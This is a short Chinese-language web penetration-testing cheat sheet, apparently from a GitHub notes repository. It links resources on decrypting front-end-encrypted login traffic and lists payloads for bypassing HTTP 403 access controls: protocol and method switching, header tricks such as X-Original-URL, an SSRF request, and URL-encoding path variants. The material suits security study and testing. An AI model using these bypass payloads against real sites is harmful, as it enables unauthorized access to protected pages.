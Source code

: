 # 前端攻防

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 前端解密

**相关文章**
- [对登录中账号密码进行加密之后再传输的爆破的思路和方式](https://www.freebuf.com/articles/web/127888.html)
- [浅析前端加密后数据包的修改方法](https://www.freebuf.com/articles/web/223011.html)
- [浅谈web安全之前端加密](https://mp.weixin.qq.com/s/W1Jbrj6Jtg-J3-AX4eO-Eg)

**相关案例**
- [H5页面漏洞挖掘之路-加密篇](https://mp.weixin.qq.com/s/QRxMQFgAPlJsUwuw8Sv0JQ)

**相关工具**
- [Ebryx/AES-Killer](https://github.com/Ebryx/AES-Killer) - 可即时解密移动应用程序的 AES 加密流量的 Burp 插件

---

# 绕过访问

**相关工具**
- [iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403) - 一个用来绕过403报错的简单脚本

**Tips**
- protocol based bypass
    ```bash
    http://web.com/admin    # ===> 403
    https://web.com/admin   # ===> 200
    ```

- method based bypass
    ```bash
    OPTIONS
    GET
    HEAD
    POST
    PUT
    DELETE
    TRACE
    TRACK
    CONNECT
    PROPFIND
    PROPPATCH
    MKCOL
    COPY
    MOVE
    LOCK
    UNLOCK
    VERSION-CONTROL
    REPORT
    CHECKOUT
    CHECKIN
    UNCHECKOUT
    MKWORKSPACE
    UPDATE
    LABEL
    MERGE
    BASELINE-CONTROL
    MKACTIVITY
    ORDERPATCH
    ACL
    PATCH
    SEARCH
    ARBITRARY
    ```

- HTTP Header based bypass
    ```bash
    GET /admin HTTP/1.1
    Host: web.com   # ===> 403

    GET /anything HTTP/1.1
    Host: web.com
    X-Original-URL: /admin  # ===> 200

    GET /anything HTTP/1.1
    Host: web.com
    Referer: https://web.com/admin  # ===> 200

    GET https://qq.com HTTP/1.1
    Host: web.com   # ===> SSRF
    ```

- url character/parameter bypass
    ```bash
    /admin/panel    # ===> 403
    /admin/monitor  # ===> 200

    /admin/monitor/;panel   # ===> 302
    ```
    ```bash
    web.com/admin   # ===> 403

    web.com/ADMIN       # ===> 200
    web.com/admin/      # ===> 200
    web.com/admin/.     # ===> 200
    web.com//admin//    # ===> 200
    web.com/./admin/./  # ===> 200
    web.com/./admin/..  # ===> 200
    web.com/%2f/admin/  # ===> 200
    web.com/admin.json  # ===> 200(ruby)

    web.com/%2e/admin   # ===> 200
    web.com/%252e/admin # ===> 200
    web.com/%ef%bc%8fadmin  # ===> 200

    web.com/admin       # ===> 302
    web.com/../admin    # ===> 200
    web.com/test/admin  # ===> 200
    web.com/admin..;/   # ===> 200
    ```

